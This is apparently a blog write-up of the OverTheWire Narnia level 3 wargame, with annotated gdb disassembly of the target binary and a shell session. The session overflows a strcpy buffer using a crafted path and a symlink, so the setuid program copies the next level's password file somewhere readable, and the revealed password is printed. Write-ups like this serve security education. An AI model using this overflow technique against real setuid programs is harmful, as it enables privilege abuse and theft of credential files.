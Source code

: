 +++
title = "Over the wire - narnia03"
description = "Over the wire - narnia03"
date ="2016-03-09"
draft = true
publishdate ="2016-03-09"
categories = ["security"]
tags = ["assembly", "linux", "binary"]
slug =  "over-the-wire-narnia-03"
project_url = "https://greyhat.dk/over-the-wire-narnia-03"
type = "post"
+++



(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804851d <+0>:	push   ebp
   0x0804851e <+1>:	mov    ebp,esp
   0x08048520 <+3>:	and    esp,0xfffffff0
   0x08048523 <+6>:	sub    esp,0x70
   0x08048526 <+9>:	mov    DWORD PTR [esp+0x58],0x7665642f ; "/dev"
   0x0804852e <+17>:	mov    DWORD PTR [esp+0x5c],0x6c756e2f ; "/nul"
   0x08048536 <+25>:	mov    DWORD PTR [esp+0x60],0x6c ; "l"
   0x0804853e <+33>:	mov    DWORD PTR [esp+0x64],0x0  ; \0
   0x08048546 <+41>:	cmp    DWORD PTR [ebp+0x8],0x2   ; argc==2
   0x0804854a <+45>:	je     0x804856d <main+80>
   0x0804854c <+47>:	mov    eax,DWORD PTR [ebp+0xc]   ; argv
   0x0804854f <+50>:	mov    eax,DWORD PTR [eax]
   0x08048551 <+52>:	mov    DWORD PTR [esp+0x4],eax
   0x08048555 <+56>:	mov    DWORD PTR [esp],0x8048710 ; "usage, %s file, will send contents of file 2 /dev/null\n"
   0x0804855c <+63>:	call   0x80483a0 <printf@plt>
   0x08048561 <+68>:	mov    DWORD PTR [esp],0xffffffff
   0x08048568 <+75>:	call   0x80483d0 <exit@plt>
   0x0804856d <+80>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048570 <+83>:	add    eax,0x4
   0x08048573 <+86>:	mov    eax,DWORD PTR [eax]
   0x08048575 <+88>:	mov    DWORD PTR [esp+0x4],eax
   0x08048579 <+92>:	lea    eax,[esp+0x38]
   0x0804857d <+96>:	mov    DWORD PTR [esp],eax
   0x08048580 <+99>:	call   0x80483b0 <strcpy@plt> ; strcpy(ebp+0xc,esp+0x38 )
   0x08048585 <+104>:	mov    DWORD PTR [esp+0x4],0x2 ; O_RDWR
   0x0804858d <+112>:	lea    eax,[esp+0x58]     ; 0x58-0x38 = 32 bytes
   0x08048591 <+116>:	mov    DWORD PTR [esp],eax
   0x08048594 <+119>:	call   0x80483e0 <open@plt>   ; open("/dev/null", O_RDWR)
   0x08048599 <+124>:	mov    DWORD PTR [esp+0x6c],eax ; 
   0x0804859d <+128>:	cmp    DWORD PTR [esp+0x6c],0x0
   0x080485a2 <+133>:	jns    0x80485c4 <main+167>   ; if open
   0x080485a4 <+135>:	lea    eax,[esp+0x58]
   0x080485a8 <+139>:	mov    DWORD PTR [esp+0x4],eax
   0x080485ac <+143>:	mov    DWORD PTR [esp],0x8048748
   0x080485b3 <+150>:	call   0x80483a0 <printf@plt>
   0x080485b8 <+155>:	mov    DWORD PTR [esp],0xffffffff
   0x080485bf <+162>:	call   0x80483d0 <exit@plt>
   0x080485c4 <+167>:	mov    DWORD PTR [esp+0x4],0x0  ; O_RDONLY
   0x080485cc <+175>:	lea    eax,[esp+0x38]
   0x080485d0 <+179>:	mov    DWORD PTR [esp],eax
   0x080485d3 <+182>:	call   0x80483e0 <open@plt> ; open ("/etc/narnia_pass/narnia4", O_RDONLY)
   0x080485d8 <+187>:	mov    DWORD PTR [esp+0x68],eax ; result of open
   0x080485dc <+191>:	cmp    DWORD PTR [esp+0x68],0x0
   0x080485e1 <+196>:	jns    0x8048603 <main+230>
   0x080485e3 <+198>:	lea    eax,[esp+0x38]
   0x080485e7 <+202>:	mov    DWORD PTR [esp+0x4],eax
   0x080485eb <+206>:	mov    DWORD PTR [esp],0x8048748
   0x080485f2 <+213>:	call   0x80483a0 <printf@plt>
   0x080485f7 <+218>:	mov    DWORD PTR [esp],0xffffffff
   0x080485fe <+225>:	call   0x80483d0 <exit@plt>
   0x08048603 <+230>:	mov    DWORD PTR [esp+0x8],0x1f ; 
   0x0804860b <+238>:	lea    eax,[esp+0x18]
   0x0804860f <+242>:	mov    DWORD PTR [esp+0x4],eax
   0x08048613 <+246>:	mov    eax,DWORD PTR [esp+0x68]
   0x08048617 <+250>:	mov    DWORD PTR [esp],eax
   0x0804861a <+253>:	call   0x8048390 <read@plt>
   0x0804861f <+258>:	mov    DWORD PTR [esp+0x8],0x1f
   0x08048627 <+266>:	lea    eax,[esp+0x18]
   0x0804862b <+270>:	mov    DWORD PTR [esp+0x4],eax
   0x0804862f <+274>:	mov    eax,DWORD PTR [esp+0x6c]
   0x08048633 <+278>:	mov    DWORD PTR [esp],eax
   0x08048636 <+281>:	call   0x8048400 <write@plt>
   0x0804863b <+286>:	lea    eax,[esp+0x58]
   0x0804863f <+290>:	mov    DWORD PTR [esp+0x8],eax
   0x08048643 <+294>:	lea    eax,[esp+0x38]
   0x08048647 <+298>:	mov    DWORD PTR [esp+0x4],eax
   0x0804864b <+302>:	mov    DWORD PTR [esp],0x804875c
   0x08048652 <+309>:	call   0x80483a0 <printf@plt>
   0x08048657 <+314>:	mov    eax,DWORD PTR [esp+0x68]
   0x0804865b <+318>:	mov    DWORD PTR [esp],eax
   0x0804865e <+321>:	call   0x8048410 <close@plt>
   0x08048663 <+326>:	mov    eax,DWORD PTR [esp+0x6c]
   0x08048667 <+330>:	mov    DWORD PTR [esp],eax
   0x0804866a <+333>:	call   0x8048410 <close@plt>
   0x0804866f <+338>:	mov    DWORD PTR [esp],0x1
   0x08048676 <+345>:	call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb)


narnia3@melinda:/tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa/tmp$ ln -s /etc/narnia_pass/narnia4 desdicpw
narnia3@melinda:/tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa/tmp$ /narnia/narnia4 /tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa/tmp/desdicpw
-bash: /narnia/narnia4: Permission denied
narnia3@melinda:/tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa/tmp$ /narnia/narnia3 /tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa/tmp/desdicpw
error opening tmp/desdicpw
narnia3@melinda:/tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa/tmp$ cd ..
narnia3@melinda:/tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa$ cd ..
narnia3@melinda:/tmp$ cd ..
narnia3@melinda:/$ ls tmp/desdicpw
tmp/desdicpw
narnia3@melinda:/$ /narnia/narnia3 /tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa/tmp/desdicpw
copied contents of /tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa/tmp/desdicpw to a safer place... (tmp/desdicpw)
narnia3@melinda:/$ cat tmp/desdicpw
thaenohtai
������
      ��So���narnia3@melinda:/$

